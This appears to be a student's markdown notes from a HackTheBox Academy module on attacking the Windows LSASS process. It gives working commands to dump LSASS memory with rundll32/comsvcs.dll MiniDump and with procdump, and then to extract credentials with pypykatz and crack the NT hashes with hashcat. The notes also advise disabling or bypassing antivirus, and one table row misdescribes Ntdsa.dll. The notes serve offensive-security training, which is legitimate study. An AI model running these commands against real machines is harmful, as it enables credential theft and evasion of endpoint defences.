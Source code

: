 # LSASS Attacks

***Ref: <https://academy.hackthebox.com/module/147/section/1359>***

| **Authentication Packages** | **Description** |
|--|--|
| `Lsasrv.dll` | The LSA Server service both enforces security policies and acts as the security package manager for the LSA. The LSA contains the Negotiate function, which selects either the NTLM or Kerberos protocol after determining which protocol is to be successful. |
| `Msv1_0.dll` | Authentication package for local machine logons that don't require custom authentication.
| `Samsrv.dll` |The Security Accounts Manager (SAM) stores local security accounts, enforces locally stored policies, and supports APIs. |
| `Kerberos.dll` | Security package loaded by the LSA for Kerberos-based authentication on a machine. |
| `Netlogon.dll` | Network-based logon service. |
| `Ntdsa.dll` | This library is used to create new records and folders in the Windows registry. |

![Alt text](lsassexe_diagram.png)

## Dumping LSASS Process Memory

Creating a dump file of the LSASS process memory helps in offline credentials from our attack box.

### Task Manager Method

Using a GUI based interactive session use task manager to find `Local Security Authority Process` and create a dump file. It will create a file called `lsass.DMP` in the path `C:\Users\<loggedonusersdirectory>\AppData\Local\Temp`.

### Rundll32.exe & Comsvcs.dll Method

Determine the process ID of the lsass.exe using the these in:

#### Command-Line Utility or cmd.exe

`> tasklist /svc`

Manually find lsass.exe and note the PID

#### Powershell

`Get-Process lsass`

---

### Create lsass.dmp
**cmd.exe**
`powershell -c rundll32.exe C:\Windows\System32\comsvcs.dll MiniDump (Get-Process lsass).id C:\lsass.dmp full`

**Powershell**

Use an **elevated** Powershell session:

`> rundll32 C:\windows\system32\comsvcs.dll, MiniDump (Get-Process lsass).id C:\lsass.dmp full`

> ***Note*** This method of dumping the file is recognized as malicious by most modern Anti-Viruses in which case a way has to found to disable or bypass the AV.

**Procdump** (Not preferred)
Transfer procdump utility
`procdump.exe -accepteula -ma lsass.exe lsass.dmp`

Use file trasfer methods to transfer the lsass.dmp file.

## Using Pypykatz to extract Credentials
| **Command** | **Description** |
|--|--|
| `pypykatz lsa minidump <path>/lsass.dmp` | To attempt to extract credentials using dump file |

> **Tip** Useful NT hash can be found under MSV and then be cracked using hashcat type 1000